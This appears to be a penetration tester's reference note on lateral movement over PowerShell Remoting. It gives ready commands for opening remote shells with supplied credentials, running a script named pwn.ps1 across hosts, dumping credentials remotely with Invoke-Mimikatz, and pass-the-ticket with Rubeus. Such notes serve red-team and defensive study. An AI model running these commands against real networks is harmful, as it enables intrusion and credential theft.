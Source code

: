 ```yaml
---
title: PSRemoting Lateral Movement
---
```


[[notes/lateral-movement/index]] over [[notes/network/winrm]].

Create credential.

~~~ powershell
$c = New-Object System.Management.Automation.PSCredential -ArgumentList ('jdoe', (ConvertTo-SecureString 'passw0rd' -AsPlainText -Force))
~~~

Open interactive shell on remote system.

~~~ powershell
Enter-PSSession -Credential $c -ComputerName srv01.corp.local
~~~

Execute command on multiple systems at once.

~~~ powershell
Invoke-Command -Credential $c -ComputerName srv01.corp.local,srv02.corp.local -ScriptBlock {hostname;whoami;}
~~~

Execute script on multiple systems.

~~~ powershell
Invoke-Command -Credential $c -ComputerName srv01.corp.local,srv01.corp.local -File .\pwn.ps1
~~~

Execute local function on remote system.

~~~ powershell
Import-Module .\mimikatz.ps1
Invoke-Command -Credential $c -ComputerName srv01.corp.local -ScriptBlock ${function:Invoke-Mimikatz} -ArgumentList DumpCreds
~~~

Reuse sessions.

~~~ powershell
$s = New-PSSession -Credential $c -ComputerName srv01.corp.local
Invoke-Command -Session $s -ScriptBlock {hostname;}
Invoke-Command -Session $s -ScriptBlock {whoami;}
~~~

Establish session with Kerberos authentication.

~~~ powershell
$s = New-PSSession -Authentication Kerberos -Computer srv01.corp.local
Invoke-Command -Session $s -ScriptBlock {hostname;whoami;}
~~~

Establish session trough pass the ticket.

~~~ powershell
.\rubeus.exe ptt /ticket:%BASE64KIRBI%
Invoke-Command -ScriptBlock {whoami} -ComputerName srv01.corp.local -Authentication NegotiateWithImplicitCredential
~~~

Copy file.

~~~ powershell
Copy-Item -Path .\local.txt -ToSession $s -Destination C:\Users\jdoe\remote.txt
~~~

> **Note:** PSRemoting seems to be unsupported in Powershell on Linux.

References:

- [Transferring Functions with PSRemoting](http://web.archive.org/web/20220817035429/https://vexx32.github.io/2018/11/02/Transferring-Functions/)
- [Enter-PSSession](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession)
- [Invoke-Command](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/invoke-command)

